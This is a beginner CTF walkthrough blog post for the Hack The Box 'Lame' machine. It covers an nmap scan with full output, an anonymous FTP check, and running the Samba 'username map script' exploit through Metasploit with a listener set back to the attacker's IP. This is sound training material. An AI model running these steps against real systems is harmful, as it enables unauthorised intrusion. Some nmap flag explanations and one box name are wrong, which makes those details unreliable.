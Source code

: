 +++
author = "Jake Rice"
title = "Lame is Cool"
date = "2022-06-04"
description = ""
tags = [
    "HTB",
    "CTF_Walkthrough",
]
thumbnail = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Lame_logo.png"

+++
Clever titles for days. This walkthough of the Lame box is another begginner friendly entry level HTB. We'll explore a little anonymous FTP, and find out more about Samba. s

<!--more-->
---
## Startup

This is an entry level beginner freindley box, so the walkthrough is going to be the same. With that being said, the first step that other walkthoughs always skip over is spinning up the box and getting connected. While it is easy once you know how to do it if you don't know how you'll never be able to get started. Feel free to skip to the next section if you already know how to do this.

HTB has 2 options when it comes to completing their boxes. You can spin up a machine via HTB, or connect your own using OpenVPN. I prefer to connect my because of the customizations and different tools I have on my Kali machine, but if you want here is where to find the HTB Attack Box.

The first step if you are connecting via OpenVPN is to first make sure you have OpenVPN installed on your device. Either start typing the command see if it autofills, or if using Kali run:
```bash
sudo apt install openvpn
```
Once you are sure is installed in the same place where you see the attack box you can select OpenVPN. Change the server if desired and then download the file. Find the file location and run the following command:
```bash
openvpn insert/filepath/here
```

After you have connected you may have to refresh the page in order for the connect box to turn green and show your HTB IP. After that the last step is to find the Jerry box and start it up.
{{% notice note "Heads Up"%}}
That IP in the green box will be the IP you use for yourself during interactions with this box. Do not use your actual IP.
{{% /notice %}}

---

## Intelligence gathering

The first thing I always like to do is run NMap. Here is the NMap scan I ran and a breakdown of the flags I used.
```bash
nmap -sT -sV -Pn -p- -A -T3 tar.get.ip.add -oA /home/kali/HTB/WU/Lame/nmap/scans
```
{{% notice tip "NMAP Flags"%}}
-sT =

-sV = OS Version

-Pn = Scan all ports, and don't ping. (Scans prots no matter what)

-p- = All ports

-A = All

-T3 = Speed level. (Options 1-5 with 1 being slowest and 5 fastest)

-oA = output namp in the three formatss to the specified file path.
{{% /notice %}}

While that is running let's go ahead and see if we can find anything at the IP. Open up a web browser and put in the target machines IP address. We don't get any results, but we'll check a couple of the usual directories just in case. I searched around using /admin /login /user /signin /contact and got nothing, so lets dive in to those NMap results.
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-04 22:53 EDT
Nmap scan report for 10.10.10.3
Host is up (0.033s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.9
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: DD-WRT v24-sp1 (Linux 2.4.36) (92%), OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-06-04T22:55:49-04:00
|_clock-skew: mean: 2h00m06s, deviation: 2h49m45s, median: 3s

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   32.78 ms 10.10.14.1
2   32.81 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.96 seconds
```

So we've got two items that really catch my eye in that NMap scan. Item one is the port 21 Anonymous FTP, and item two is the Samba ports 139 and 445. Lets start off by looking into port 21 first.

---
## Port 21 - Anonymous FTP

In the NMap scan the first thing that should catch your eye is that port 21 FTP is allowing Anonymous FTP. Anonymous FTP essentially means we can log in wihout having a username or password. We will connect using the user name anonymous with no password.
```bash
ftp anonymous@tar.get.ip.add 
```
{{% notice note "Heads Up"%}}
The username being used is the one before the @ sign.
{{% /notice %}}

Once you get in there you can do some snooping, but you're not able to find anything. Just to cover your bases login using ftp as the user too. Unfourtaenly, there is nothing there either. It appears anonymous FTP was a red herring. That's okay though, because we have another open port to check!

---

## Port 139/445 - Samba

First off what is Samba? Port 139 and 445 are SMB and used for file transfer, and back in the day it used to run on top of NetBIOS. Now days port 445 TCP can use it for file transfer. When looking for this specific version you do find that there is an exploit for it. This is the perfect time to introduce searchsploit.
```bash
searchsploit samba 3.0.2
```
When doing that we see several exploits, but the one we'll focus on is:

{{% notice tip "Searchploit Result"%}}
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | unix/remote/16320.rb
{{% /notice %}}

Now that we've found an exploit it's time to... exploit!

---


## Exploiting the vulnerablity

From our searchsploit result we see we can use this exploit via Metasploit. Lets get it spun up and dive in.
```bash
msfconsole
```
Once you have it started we can get is set up.

{{% notice tip "Metasploit Setup"%}}
1- Use show options

2-Set the rhost as the target IP (set rhost tar.get.ip.add)

3-Set the lhost as your IP (set lhost your.HTB.ip.add)(The IP given to you via HTB (it's in the green box))

4-Use exploit (exploit OR run)
{{% /notice %}}

It works!! Now time to dig around and find the flags. I'll leave that part for you, but feel free to message me if you need a hand!
